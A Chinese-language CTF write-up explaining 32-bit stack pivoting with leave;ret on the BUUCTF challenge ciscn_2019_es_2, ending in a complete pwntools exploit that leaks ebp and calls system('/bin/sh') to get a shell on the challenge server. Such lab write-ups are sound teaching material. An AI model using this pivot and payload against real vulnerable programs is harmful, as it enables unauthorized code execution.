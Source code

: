 ### 32 位栈迁移

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a87c72d0e0a243d4fd6634.png)

漏洞代码如下：

![](https://pic1.imgdb.cn/item/67a87c84d0e0a243d4fd6673.png)

缓冲区 s 能构成溢出，但是 ret 太小了构造不了完整的 ROP

![](https://pic1.imgdb.cn/item/67a87cbbd0e0a243d4fd6743.png)

当缓冲区溢出空间不足以布置完整的 ROP 链时，利用栈迁移扩展攻击空间

在 32 位中关键指令是 `leave; ret` 主要用于 **改变 ESP**，让程序跳转到新的栈地址

因为 `leave` 会 **将 `esp` 设为 `ebp`**，并且 `ebp` 由我们控制，所以可以实现 **栈迁移**

```
mov ebp, new_stack_address  ; 控制 ebp
leave                       ; esp = ebp, pop ebp
ret                         ; 弹出新的返回地址并跳转
```

在 nop 处下断点调试

![](https://pic1.imgdb.cn/item/67a8876ad0e0a243d4fd6ca7.png)

ebp 距离我们的输入差 0x38，ebp - 0x38 就拿到了我们参数 s 在栈上的位置

![](https://pic1.imgdb.cn/item/67a8d725d0e0a243d4fda2e4.png)

由于我们要用到 leave;ret 来劫持栈，所以先找一下 levae;ret 的位置

![](https://pic1.imgdb.cn/item/67a8ce28d0e0a243d4fda1d4.png)

printf 会将 s 打印出来，如果我们正好输入 0x28 个字节，那么 printf 会把后面的 ebp 的值也打印出来，这就泄漏了 ebp

```python
from pwn import *

p = remote('node5.buuoj.cn',28813)
elf = ELF('./ciscn_2019_es_2')

leave_ret = 0x08048562

p.recvline()

payload1 = b'a' * 0x25 + b'b'* 3

p.send(payload1)
p.recvuntil('abbb')

# 泄露 ebp 的值
ebp = u32(p.recv(4))

# b'a' * 0x4：填充 4 个字节，作用是对齐栈
# p32(ebp - 0x28)：指向 /bin/sh 位置，作为 system() 的参数
payload2 = b'a' * 0x4 + p32(elf.plt['system']) + p32(0) + p32(ebp - 0x28) + b"/bin/sh"

# 用 \x00 填充 payload2，确保它的长度 至少 是 0x28
payload2 = payload2.ljust(0x28, b'\x00')

# p32(ebp - 0x38)：覆盖栈上的 ebp，调整栈指针，使其指向 payload2 的起始位置
# p32(leave_ret)：执行 leave; ret，完成栈迁移，进入 ROP 执行
payload2 += p32(ebp - 0x38) + p32(leave_ret)

p.sendline(payload2)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a8cda1d0e0a243d4fda1c2.png)